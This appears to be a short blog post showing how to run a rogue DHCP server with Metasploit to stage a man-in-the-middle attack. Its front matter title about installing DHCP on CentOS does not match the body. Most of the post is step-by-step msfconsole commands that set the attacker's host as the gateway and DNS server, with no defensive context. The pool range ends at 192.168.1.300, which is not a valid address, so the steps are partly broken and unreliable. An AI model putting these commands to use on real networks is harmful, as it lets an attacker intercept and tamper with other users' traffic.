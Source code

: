 ```yaml
---
layout: post
title: Install And Config DHCP On CentOS Minimal
#subtitle: Excerpt from Soulshaping by Jeff Brown
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/thumb.png
share-img: /assets/img/path.jpg
tags: [fake dhcp, dhcp spoofing ]
---
```

There is a dangerous type of cyber attack called Man In The Middle. Attacker can make all network traffic go through their system.  
One of the ways of this attack is that the attacker has to make the system being attacked to recognize the attacker's system as the gateway(router)    
that sends all network traffic through here. There are many ways to do this, and the popular way is fake DHCP server.  
## 1. Network Model:  
* **gateway: 192.168.1.1** 
* **netmask: 255.255.255.0**  
* **attacker: 192.168.1.92**  
## 2. Create Fake DHCP: 
Open Metasploit:  
```
msfconsole
```
```
use auxiliary/server/dhcp
```
```
show options
```
![](assets/img/2020-27-2-show-options.png)

Setup DHCP server:  
```
set dhcpipstart 192.168.1.200
```
```
set dhcpipend 192.168.1.300
```
```
set netmask 255.255.255.0
```
```
set broadcast 192.168.1.255
```
```
set router 192.168.1.92
```
```
set dnsserver 192.168.1.92
```
```
set srvhost 192.168.1.92
```
```
run
```
Network information of another machine before and after run fake DHCP:  
*before*  

![](assets/img/2020-27-2-before.png)  

*after*  

![](assets/img/2020-27-2-after.png)

